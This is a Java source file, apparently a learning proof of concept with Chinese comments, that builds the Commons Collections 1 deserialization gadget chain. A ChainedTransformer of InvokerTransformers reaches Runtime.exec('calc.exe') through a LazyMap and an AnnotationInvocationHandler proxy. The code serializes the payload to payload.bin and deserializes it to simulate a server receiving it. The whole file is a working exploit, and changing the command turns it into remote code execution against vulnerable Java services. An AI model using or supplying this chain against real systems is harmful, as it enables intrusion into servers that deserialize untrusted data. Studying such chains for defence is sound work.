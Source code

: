 ```java
package org.example.cc;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollections1L {
    public static void main(String[] args) throws Exception {
        //此处构建了一个transformers的数组，在其中构建了任意函数执行的核心代码
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})
        };

        //将transformers数组存入ChaniedTransformer这个继承类
        Transformer transformerChain = new ChainedTransformer(transformers);

        //创建Map并绑定transformerChina
        HashMap<Object, Object> innerMap = new HashMap();
        //innerMap.put("value", "hack");
        //给予map数据转化链
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);

        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor ctor = c.getDeclaredConstructor(Class.class, Map.class);
        ctor.setAccessible(true);
        InvocationHandler ith = (InvocationHandler) ctor.newInstance(SuppressWarnings.class, outerMap);
        Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(),new Class[]{Map.class},ith);
        Object o = ctor.newInstance(SuppressWarnings.class, mapProxy);

        //payload序列化写入文件，模拟网络传输
        FileOutputStream fos = new FileOutputStream("payload.bin");
        ObjectOutputStream oos = new ObjectOutputStream(fos);
        oos.writeObject(o);

        //服务端读取文件，反序列化，模拟网络传输
        FileInputStream fis = new FileInputStream("payload.bin");
        ObjectInputStream ois = new ObjectInputStream(fis);
        ois.readObject();
    }
}
```
